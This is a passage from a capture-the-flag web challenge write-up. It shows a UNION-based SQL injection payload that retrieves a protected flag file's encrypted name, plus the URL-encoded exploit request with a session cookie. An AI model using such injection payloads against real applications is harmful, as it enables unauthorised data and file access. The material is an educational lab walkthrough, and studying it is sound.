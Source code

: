 ### Response
```
HTTP/1.1 404 NOT FOUND
Server: gunicorn
Date: Mon, 08 Jul 2024 01:22:07 GMT
Connection: close
Content-Type: application/json
Content-Length: 28

{"message":"404 Not Found"}
```

This is because the encrypted value for `flag.txt` contains a slash, which the web server interprets as part of the web path, and thus tries to serve a different route. We will need to modify our payload to remove all traces of slash characters. In this case, we need to have the encrypted value of `flag.txt` in our payload without directly referencing it. In order to do this, we can pull it directly from the database, filtering by a unique title. In our case the following payload will work:
```
999999 UNION SELECT 1,149,"",filename,"TNcwOVhmXhTe0gI7FM7cWE3owTKu76t278iGYK5TBh8=" FROM file WHERE title="OMG"
```

We URL encode the payload, and then send a `GET` request to  `/files/download/%39%39%39%39%39%39%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%31%2c%31%34%39%2c%22%22%2c%66%69%6c%65%6e%61%6d%65%2c%22%54%4e%63%77%4f%56%68%6d%58%68%54%65%30%67%49%37%46%4d%37%63%57%45%33%6f%77%54%4b%75%37%36%74%32%37%38%69%47%59%4b%35%54%42%68%38%3d%22%20%46%52%4f%4d%20%66%69%6c%65%20%57%48%45%52%45%20%74%69%74%6c%65%3d%22%4f%4d%47%22` and we get flag

### Request
```
GET /api/files/download/%39%39%39%39%39%39%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%31%2c%31%34%39%2c%22%22%2c%66%69%6c%65%6e%61%6d%65%2c%22%54%4e%63%77%4f%56%68%6d%58%68%54%65%30%67%49%37%46%4d%37%63%57%45%33%6f%77%54%4b%75%37%36%74%32%37%38%69%47%59%4b%35%54%42%68%38%3d%22%20%46%52%4f%4d%20%66%69%6c%65%20%57%48%45%52%45%20%74%69%74%6c%65%3d%22%4f%4d%47%22 HTTP/1.1
Host: uscybercombine-s4-web-secure-file-storage.chals.io
Cookie: auth=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFyanVuIiwiaWQiOjE0OX0.bow8Xe0vVpNhybZknSuCSw9OxDDJfXY3cuXFhcVZ-AE
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://uscybercombine-s4-web-secure-file-storage.chals.io/files
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close


```
